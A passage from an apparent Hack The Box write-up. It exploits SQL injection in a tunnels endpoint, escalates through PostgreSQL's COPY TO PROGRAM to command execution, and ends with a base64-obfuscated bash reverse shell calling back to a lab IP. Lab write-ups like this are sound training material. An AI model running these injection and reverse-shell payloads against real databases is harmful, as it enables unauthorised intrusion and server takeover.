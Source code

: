 It does throw an error, let's try this one, it is for `PostgreSQL`

```javascript
window.location.href = `http://tunnel.neohub.htb/tunnels/1 AND 5::int=5`
```

![img](assets/iden.png)

Great, it turns out we are dealing with a PostgreSQL database. PostgreSQL allows stacked queries by default, which can be exploited for remote code execution (RCE). Using the database credentials obtained from the Golang backup, we can execute the following payload to leverage PostgreSQL's ability to execute external programs:

```sql
COPY (SELECT 1) TO PROGRAM 'id';
```

This command uses PostgreSQL's `COPY TO PROGRAM` feature, which is intended to write data to a program's standard input. By exploiting this feature, commands can be executed on the server hosting the database.

With this capability, we can attempt to gain a shell on the PostgreSQL container. Here's a script that could be used to execute a reverse shell, ensuring you replace the placeholder with your actual server details:

```javascript
window.location.href = `http://tunnel.neohub.htb/tunnels/1;COPY (SELECT 1) TO PROGRAM 'echo "L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjM2LzQyNDIgMD4mMSc=" | base64 -d | sh';`
```

Make sure the server is listening on the specified port before running this command to successfully catch the reverse shell.

